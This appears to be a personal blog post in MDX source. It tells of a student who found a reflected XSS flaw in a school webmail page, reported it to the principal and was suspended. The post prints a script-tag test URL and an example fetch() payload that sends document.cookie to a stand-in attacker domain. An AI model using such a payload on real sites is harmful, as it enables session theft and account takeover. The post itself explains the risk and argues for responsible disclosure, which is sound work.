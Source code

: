 ```yaml
---
title: "I got suspended for doing the right thing."
publishedAt: 1656992369870
description: "And why no good deed goes unpunished."
tags: ["coding", "cybersecurity", "hacking"]
---
```


# The backstory

In typical American high schools, you are assigned an email address on your school's domain and allocated an inbox using something like GSuite or Microsoft office.
This same thing happened at my school, but we would use the in-house solution that I'll call XMail. The XMail interface was simple, a table with your emails and a button to send a new one. You get the idea.

<XMailTable />

The interesting part of this story came when I needed to send an email to one of my teachers. After hitting send, a banner appeared displaying the text "Email sent successfully". But something immediately caught my eye.
The way this worked was by modifying the URL to include a query parameter containing the banner text, like this `https://school.org/XMail?message=sent%20successfully`. This leads right into what the problem was.

# The vulnerability

In the various places I had worked, I tinkered around with security and knew what the best practices were for building websites (Coming soon: how I sent my boss our entire user table w/ emails and hashed passwords without any database access). Which is why such a brazen display of injecting user input without serialization into a webpage made me curious right away. I immediately started tinkering around and found that by modifying this query parameter, you can put _anything_ you want in the banner, even HTML.
Something like `https://school.org/XMail?message=<script>alert("hi!")</script>` will prompt an alert on the page of whoever opens the link. This is a glaring problem.
Why? Because of something called a [Cross Site Scripting Attack (XSS)](https://owasp.org/www-community/attacks/xss/). The way this works is that an untrusted script is injected into an otherwise trusted site without the user's knowledge or consent.
In this situation, it means an attacker can send someone a link to XMail with a specially crafted payload encoded, and when the user clicks the link they'll be directed to XMail, but without knowing it, malicious code is running on their browser. This is especially dangerous because of the way the school website worked, where _session IDs were not stored in an [HttpOnly cookie](https://owasp.org/www-community/HttpOnly)_, allowing an attacker access to a user's cookies using `document.cookie`.
The attacker can then make a HTTP request to a remote server and send that cookie over, using an example payload encoded into the URL like this:

<CodeBlock code={`fetch("http://someotherdomainIown.com/receive-cookies", {
  method: "POST",
  mode: "no-cors",
  body: document.cookie,
  headers: {
    "Content-Type": "application/x-www-form-urlencoded "
  }
});`} />

With this session ID in hand, the attacker can then authenticate themselves as the user without them knowing. To them, they just clicked on a link that took them to their email, but to an attacker, they now have full access to their account. This meant someone could target a student, a teacher, or even a principal. Everyone was at risk.
This had the potential of costing the school district tens of thousands of dollars.

# The report

As soon as I confirmed my suspicions, I drafted an email to send to my Principal explaining the situation at hand and steps they could take to fix the vulnerability (all of the school JS files were unobfuscated). I sent it off thinking I had done my good deed for the day and headed to bed. I woke up on the following Monday as always, dreading going to school. For the most part, it was a normal day.
About halfway through the day, I was called down to the main office to meet with the Principal. It wasn't a shock to me, as I assumed they would want to follow up with me to get some additional information. This first meeting was nothing special, it consisted mainly of "How did you come across this?", "How did you figure this out?", and "Thanks for bringing this to our attention". That was that, and after some handshakes and some patting on the back, I went back to class.
I was then called down the following day, which immediately struck me as odd. I thought everything that needed to be said was said and that everyone would move on. I was asked to elaborate in more detail about the vulnerability, with the Principal scribing various notes on his notepad -- which should have tipped me off to be more careful about what I was telling him. Instead, as naive as I was, I told him the story again, with full honesty and transparency.
This was a lesson to me that when a person of authority is actively writing down everything you are saying, take a moment to figure out whether this is in your interest or not. Moving on, the meeting concluded and he thanked me once more for my cooperation. I went back to class and thought "okay, maybe that was just for record-keeping and now I can finally move on". This was where I was sorely mistaken.

# The day of judgment

The _next_ day, I was called down for the third time, which immediately let me know things were not okay. The Principal sat me down and said that while the school district was impressed with what I did, they wanted to pursue punishment for what they call a "violation of the student code of conduct".
It turns out, that the second I ran `https://school.org/XMail?message=<script>alert("hi!")</script>` in the URL bar, I was in direct violation of the Student Code of Conduct. While what I did was not explicitly outlined, they used what's called an "elastic clause". It essentially meant that the district reserved the right to punish any behavior that they deem unfavorable, even if it wasn't outlined in the code of conduct.
The district had some deliberation on what punishment they wanted to give me, and they landed on around 2-3 weeks of suspension and district computer privileges revoked.
I was dumbfounded. I thought my creativity and knowledge were something to be celebrated, something to be thanked for, not something to be punished for. The district had actually suffered a data breach earlier in the year, and according to the local news, had spent over $10k in investigation, remediation, and cleanup efforts. In my eyes, I thought that I saved the district from going through the same thing once again. However, they were not on the same page.
Thankfully, my Principal was somewhat on my side. He rallied on my behalf to get me a less severe punishment. He was able to negotiate the punishment down to one day, which I was extremely grateful for. I didn't count it as a victory quite yet though. I began drafting a letter of appeal to the district's Board of Education with my AP Government teacher. However, that didn't go far as they essentially responded with "too bad, so sad".
In the end, I served that one day of suspension and completed more school work in that one day of suspension than I had in the past two weeks of regular school. One might call it a silver lining.

# The takeaway

This experience taught me a lot about responsible reporting procedures as I discussed the situation afterward with my mentors from Discord. In the future, if you suspect there's a vulnerability in a website, do the responsible thing and get in contact with the site's admin instead of trying it beforehand without clearance. To end this, I have no qualms with the school district.
However, the steps they took to punish me set a precedent for all the other students that it's a risky idea to go looking for bugs. I wish the best of luck to the next student in that school district who comes across a similar vulnerability.

